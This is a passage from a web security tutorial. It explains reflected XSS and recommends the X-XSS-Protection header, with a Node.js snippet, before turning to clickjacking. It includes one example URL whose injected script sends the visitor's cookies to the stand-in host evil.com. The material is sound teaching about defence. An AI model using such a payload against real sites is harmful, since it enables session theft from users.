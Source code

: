 
Now, consider how will the web app above handle a URL constructed with malicious executable code embedded within the URL, such as this:
    
    
    https://mywebapp.com/search?</p><script>window.location=“http://evil.com?cookie=”+document.cookie</script>

As you may realize, this URL will make the browser run the injected script and send the user's cookies, potentially including confidential session cookies, to evil.com!

To help protect users against reflective XSS attacks, some browsers have implemented protection mechanisms. These mechanisms try to identify these attacks by looking for matching code patterns in the HTTP request and response. Internet Explorer was the first browser to introduce such a mechanism with its XSS filter, introduced in Internet Explorer 8 back in 2008, and WebKit later introduced XSS Auditor, available today in Chrome and Safari. (Firefox has no similar mechanism built in, but users can use add-ons to gain this functionality.) These various protection mechanisms are not perfect: They may fail to detect a real XSS attack (a false negative), and in other cases may block legitimate code (a false positive). Due to the latter, browsers allow users to disable the XSS filter via the settings. Unfortunately, this is typically a global setting, which turns off this security feature completely for all web apps loaded by the browser.

Luckily, there is a way for a web app to override this configuration and ensure that the XSS filter is turned on for the web app being loaded by the browser. This is done via the `X-XSS-Protection` header. This header, supported by Internet Explorer (from version 8), Edge, Chrome and Safari, instructs the browser to turn on or off the browser's built-in protection mechanism and to override the browser's local configuration.

`X-XSS-Protection` directives include these:

  * `1` or `0`  
This enables or disables the filter.
  * `mode=block`  
This instructs the browser to prevent the entire page from rendering when an XSS attack is detected.

I recommend always turning on the XSS filter, as well as block mode, to maximize user protection. Such a response header looks like this:
    
    
    X-XSS-Protection: 1; mode=block

Here's how you would configure this response header in Node.js:
    
    
    function requestHandler(req, res) {
    	res.setHeader('X-XSS-Protection','1;mode=block');
    }
    

An iframe (or HTML inline frame element, if you want to be more formal) is a DOM element that allows a web app to be nested within a parent web app. This powerful element enables some important web use cases, such as embedding third-party content into web apps, but it also has significant drawbacks, such as not being SEO-friendly and not playing nice with browser navigation -- the list goes on.

One of the caveats of iframes is that it makes clickjacking easier. Clickjacking is an attack that tricks the user into clicking something different than what they think they're clicking. To understand a simple implementation of clickjacking, consider the HTML markup below, which tries to trick the user into buying a toaster when they think they are clicking to win a prize!
    